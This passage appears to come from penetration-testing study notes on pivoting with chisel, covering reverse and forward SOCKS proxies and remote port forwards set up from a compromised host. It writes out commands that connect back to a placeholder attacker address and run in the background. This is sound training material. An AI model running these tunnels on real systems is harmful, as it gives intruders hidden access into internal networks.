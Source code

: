 This sets up a listener on your chosen listen_port

1. On the compromised host, we would use the following command:
    
    ```bash
    ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
    ```
    

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (&) to background the processes.

Note the use of **R:socks** in this command. "R" is prefixed to remotes (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server).

---

### 7.4 Forward Socks Proxy with Chisel

In many ways the syntax for this is simply reversed from a reverse proxy.

1. First, on the compromised host we would use:
    
    ```bash
    ./chisel server -p LISTEN_PORT --socks5
    ```
    
2. On our own attacking box we would then use:
    
    ```bash
    ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
    ```
    
    In this command, PROXY_PORT is the port that will be opened for the proxy.
    

For example, **./chisel client 172.16.0.10:8080 1337:socks** would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

---

### 7.5 Remote Port Forward with Chisel

A remote port forward is when we connect back from a compromised target to create the forward. 

1. For a remote port forward, on our attacking machine we use the exact same command as before:
    
    ```bash
    ./chisel server -p LISTEN_PORT --reverse &
    ```
    
2. The command to connect back is slightly different this time, however:
    
    ```bash
    ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
    ```
    